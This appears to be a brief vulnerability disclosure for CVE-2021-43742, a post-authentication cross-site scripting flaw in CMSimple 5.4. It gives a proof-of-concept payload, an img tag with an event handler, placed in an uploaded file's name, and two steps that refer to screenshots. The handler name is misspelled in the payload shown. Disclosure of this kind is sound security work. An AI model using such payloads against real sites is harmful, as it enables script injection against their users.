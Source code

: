

<h1>CVE-2021-43742</h1>

```CMSimple 5.4```

Reported by S1lv3r

```Description :```

Post-auth XSS

```Version :```
CMSimple 5.4 Version

```Attack Type:```
Local

```PoC:```
``` javascript
> <img src='1' onerorr=alert('Silv3r')>s.php

```

```1-``` Go to uploading files section, Then write XSS payload on filename : <br/>


<img src="https://github.com/iiSiLvEr/CVEs/blob/main/CVE-2021-43742/images/REQ.png"  /><br/>


```2-``` Result <br/>


<img src="https://github.com/iiSiLvEr/CVEs/blob/main/CVE-2021-43742/images/XSSPoc.png"  /><br/>



